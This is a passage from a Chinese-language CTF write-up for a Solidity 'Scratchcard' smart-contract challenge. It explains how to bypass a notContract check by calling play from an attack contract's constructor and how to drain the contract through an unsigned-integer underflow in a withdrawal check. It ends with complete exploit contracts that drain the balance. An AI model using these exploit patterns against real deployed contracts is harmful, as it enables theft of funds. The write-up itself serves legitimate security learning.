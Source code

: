         function collectMegaJackpot(uint256 _amount) public notContract ctf{
            require(checkIfMegaJackpotWinner(), "User Not Winner");
            require(2 * cost - _amount > 0, "Winners May Only Withdraw Up To 2x Their Scratchcard Cost");
            winCount[msg.sender] = 0;
            msg.sender.transfer(_amount);
        }

        function () public payable ctf{
            play();
        }

    }
    ```

调用 play 来猜随机数，play 函数有一个 notContract 的 modifier，这个可以通过在 constructor 中直接操作来绕过，因此可以直接在攻击合约中调用 25 次 play 函数来达到条件，转出的时候虽然判断了 `#!solidity 2*cost - _amount > 0` 但都是 uint 可以下溢，所以直接转出全部就好了

另外还需要提前计算一下攻击合约的地址，再调用 ctf_challenge_add_authorized_sender 函数预先把要部署的攻击合约的位置加入白名单后才可以部署攻击合约

???+ done "exp"
    ```solidity
    contract Attacker {
        Scratchcard challenge;
        uint public count;
        uint public money;
        constructor(address addr, address player) public payable {
            challenge = Scratchcard(addr);
            count = 0;
            while (count < 25) {
                money = (now%10**8)*10**10;
                challenge.play.value(money)();
                count += 1;
            }
            challenge.collectMegaJackpot(addr.balance);
            selfdestruct(player);
        }
        function() public payable {}
    }

    contract Exploit {
        Scratchcard challenge;
        address player;
        uint8 public nonce;
        constructor(address addr, address _player) public {
            challenge = Scratchcard(addr);
            player = _player;
            nonce = 1;
        }
        function exp() public payable {
            address attacker = address(keccak256(0xd6, 0x94, this, nonce));
            nonce += 1;
            challenge.ctf_challenge_add_authorized_sender(attacker);
            address(attacker).transfer(4 ether);
            Attacker newAttacker = new Attacker(address(challenge), player);
        }
        function() public payable {}
        function destroy() public {
            selfdestruct(player);
        }
    }
    ```